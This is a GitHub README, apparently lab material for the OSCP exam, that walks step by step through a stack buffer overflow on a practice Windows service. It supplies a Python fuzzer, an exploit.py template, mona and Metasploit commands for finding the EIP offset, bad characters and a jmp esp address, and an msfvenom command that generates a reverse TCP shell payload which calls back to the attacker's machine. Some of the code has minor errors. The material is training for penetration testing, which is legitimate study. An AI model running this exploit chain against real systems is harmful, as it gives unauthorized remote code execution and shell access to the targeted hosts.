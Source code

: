 # Buffer-Overflow-Script
The script help you to understand the bascis of Buffer overflow and will save you a lot of time while executing the attack.

I have created different file step by step to make.
Following sequence is as followed

1. Fuzzing
2. Crash Replication & Controlling EIP
3. Metasploit random pattren
4. use mona to find out the pattren offset
5. Finding Bad Characters
6. Finding a Jump Point
7. Generate Payload
8. Prepend NOPs
**Mona Configuration**

```
!mona config -set workingfolder c:\mona\%p
```

# **Fuzzing**

Create a file on your Kali box called fuzzer.py with the following contents:

fuzzer.py

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1
```

# **Crash Replication & Controlling EIP**

exploit.py

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Creating a pattern with -l with no. of crash + 400 as saftey

```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

Copy the output and place it into the payload variable of the [exploit.py](http://exploit.py/) script.

To find offset of the EIP (On the Debugger)

findmsp

The findmsp command will find all instances or certain references to a cyclic pattern (a.k.a. “Metasploit pattern”) in memory, registers, etc

```python
!mona findmsp -distance 600
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png)

we are controlling EIP. in the end we need to make jump through it

update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

# **Finding Bad Characters**

just find badchar sending via payload then esp dump thing find the bad chars

jump to them to find the return value

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

IMP —- use direct bad chars just edit it no neeed to type shit.

```python
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```

Update your [exploit.py](http://exploit.py/) script and set the payload variable to the string of bad chars the script generates.

```python
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

ESP > follow the dump for more accurate result

# **Finding a Jump Point**

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' will output the payload we want, but it requires manually converting to little endian
```

```python
Method 2 - Struct:
```

```python
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```

```python
It requires importing a module but struct.pack allows us to automatically convert memory to little endian.
```

```python
We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary
```

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```python
!mona jmp esp -m gatekeeper.exe
!mona jmp -r esp -cpb "\x00(badchars)"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit. script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

# **Generate Payload**

Run the following msfvenom command on Kali, using your Kali VPN IP as LHOST and updating the -b option with all the badchars you identified (including \x00):

```python
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

# **Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16

```
